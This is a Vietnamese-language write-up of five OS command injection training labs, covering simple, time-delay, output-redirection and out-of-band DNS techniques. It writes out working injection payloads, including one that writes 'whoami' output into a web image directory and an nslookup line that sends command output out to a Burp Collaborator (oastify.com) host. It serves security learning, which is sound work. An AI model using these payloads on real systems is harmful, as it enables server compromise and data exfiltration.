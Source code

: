 # Command Injection
## LABS

### Lab: OS command injection, simple case
**Yêu cầu**: Lab có lỗ hổng `OS command injection` trong chức năng kiểm tra tồn kho. Nhiệm vụ: khai thác lỗ hổng để thực thi lệnh `whoami` và lấy tên của người dùng hiện tại trên hệ thống.

**Thực hiện**
- Home page:
![alt text](img/image-1.png)

- Lỗ hổng ở phần check product stock:
![alt text](img/image-2.png)

- Kiểm tra gói tin trong Burp. Ban đầu ta hãy thử thay đổi tham số sang các kí tự đặc biệt như `"`, `|`, `&`, ...
![alt text](img/image-3.png)

- Từ thông báo lỗi ta có thể khẳng tham số này được truyền vào shell. Từ đó ta có thể khai thác với payload như sau `;whoami`
![alt text](img/image-4.png)

---

### Lab: Blind OS command injection with time delays
**Yêu cầu**: Lab có lỗ hổng `blind OS command injection` trong chức năng feedback. Nhiệm vụ: khai thác lỗ hổng để thực thi lệnh gây trễ 10 giây, xác nhận khả năng thực thi lệnh trên server.

**Thực hiện**
- Trong đề bài đã gợi ý lỗ hổng nằm trong chức năng `feedback` -> Thử nghiệm với việc submit feedback.
![alt text](img/image-5.png)

- Việc bây giờ là test xem vuln ở đâu. Sau khi phát hiện vuln ở `email` -> hoàn thành 
- Payload `& ping -c 10 127.0.0.1 &`
![alt text](img/image-6.png)

**Tổng kết**: 
Lỗ hổng OS Command Injection xảy ra khi ứng dụng chèn trực tiếp dữ liệu từ người dùng vào lệnh hệ thống mà không kiểm soát chặt chẽ. Điều này thường gặp ở các hệ thống `tương tác với script, phần mềm bên ngoài hoặc hệ thống cũ` thay vì dùng database.  
![alt text](img/image-7.png)

---

### Lab: Blind OS command injection with output redirection
**Yêu cầu**: Lab có lỗ hổng `blind OS command injection` trong chức năng feedback, nhưng không hiển thị đầu ra trực tiếp. Nhiệm vụ: lợi dụng `output redirection` để ghi kết quả của lệnh `whoami` vào thư mục `/var/www/img/images/`, sau đó truy cập file qua URL để lấy kết quả và hoàn thành lab.

**Thực hiện**
- Dùng phương pháp time delays để phát hiện lỗ hổng.
![alt text](img/image-8.png)

- `email` là nơi mà ta có thể time mã vào được. Vì thế hãy thử với lệnh `whoami`. Song vì ở đây không hiện thị ra kết quả nên ta không thấy được thông tin cần tìm. Ta lợi dụng thư mục chứa các tệp tĩnh là nơi giao diện lấy dữ liệu và hiện thị( VD: ảnh, tệp js, tệp css,...).
- Viết kết quả của lệnh `whoami` ra file tại đường dẫn chứa ảnh. Payload ở đây là `||whoami>/var/www/img/images/output.txt||`.
- Sau đó truy bắt gói tin hiện thị hình ảnh và thay đổi tên ảnh thành `output.txt` (LFI):
![alt text](img/image-9.png)

**Tổng kết**
Trong trường hợp này, bước đầu tiên là chúng ta phải xác định là có lỗ hổng. Sau đó do hàm này không có `echo` cho nên chúng ta không thể đọc được kết quả. Theo hướng dẫn chúng ta sẽ ghi lên một file mà file đó chúng ta có thể đọc được thông qua web. Thường thì nó sẽ là thư mục chứa ảnh được load hoặc các thư mục tĩnh.
Ngoài cách `redirection` này tôi đề xuất 1 cách sử dụng time-based giống cơ chế của sql-injection để nắm được thông tin đầu ra. Song đây là 1 cách khá tốn tài nguyên.

---

### Lab: Blind OS command injection with out-of-band interaction
**Yêu cầu**: Lab có lỗ hổng `blind OS command injection` trong chức năng feedback, nhưng lệnh được thực thi bất đồng bộ và không ảnh hưởng đến phản hồi ứng dụng. Không thể ghi output vào vị trí có thể truy cập, nhưng có thể kích hoạt `out-of-band interaction` bằng cách gửi truy vấn DNS đến `Burp Collaborator`. Nhiệm vụ: khai thác lỗ hổng để thực hiện `DNS lookup` đến `Burp Collaborator` và hoàn thành lab.

**Thực hiện**
- Vẫn như bài lab trên, trước hết ta cần xác định lỗ hổng nằm đâu. Trong trường hợp này không dùng time delay như trước được do cơ chế thực thi bất đồng bộ ( hiểu nôm na là mỗi cái chạy 1 luồng riêng không phải xử lí tuần tự).
- Ở đây lab yêu cầu dùng `Burp Collaborator` và kĩ thuật tấn công `Out-of-band interaction`. Có nghĩa là chúng ta sử dụng 1 kênh bên ngoài dải của server mục tiêu để có thể nhận dữ liệu gửi tới. Để xác định thành lỗ hổng thành công tức ta phải thao túng được shell và gửi tin tới kênh này.
![giao diện của Collaborator](img/image-10.png)

- Tiến hành lệnh `nslookup` tới server collaborator `||nslookup+ik62phfi4dq4snew9i0rmwfw0n6eu7iw.oastify.com||`
![alt text](img/image-11.png)

- Thử lần lượt cách trường thì ta thấy `email` có thể chèn được lệnh shell. Kết quả thành công thì bên `Collaborator` sẽ có gói tin DNS.
![alt text](img/image-12.png)

**Tổng kết**
Lỗ hổng `blind OS command injection` cho phép thực thi lệnh hệ thống, nhưng không hiển thị kết quả trực tiếp trong phản hồi. Khi không thể ghi output vào thư mục truy cập được, có thể khai thác bằng cách kích hoạt `out-of-band interaction`, như thực hiện `DNS lookup` đến `Burp Collaborator`. Điều này giúp xác nhận lệnh đã chạy thành công. 

---

### Lab: Blind OS command injection with out-of-band data exfiltration
**Yêu cầu**: Lab có lỗ hổng `blind OS command injection` trong chức năng feedback, nhưng lệnh được thực thi bất đồng bộ và không ảnh hưởng đến phản hồi ứng dụng. Không thể ghi output vào vị trí truy cập được, nhưng có thể khai thác bằng cách `exfiltrate` kết quả thông qua `DNS query` đến `Burp Collaborator`. Nhiệm vụ: thực thi lệnh `whoami`, lấy tên người dùng qua DNS query và nộp kết quả để hoàn thành lab.

**Thực hiện**
- Dùng `nslookup` trước để xác định vị trí lỗ hổng.
![alt text](img/image-13.png)

- Sau khi phát hiện được vị trí lỗ hổng ở trường `email` ta tiến hành trích xuất data qua kênh bên. 
- Payload `||whoami|nslookup+$(whoami).ik62phfi4dq4snew9i0rmwfw0n6eu7iw.oastify.com||`
![alt text](img/image-15.png)
**Tổng kết**
Ý tưởng bài này giống lab bên trên. Thay vì chỉ là gửi gói tin `DNS` tới dải ngoài thì đây cần gửi cả dữ liệu trích xuất được tới.
lệnh shell có thể như này: `whoami | nslookup $(whoami).<your-collaborator-subdomain>`
![alt text](img/image-14.png)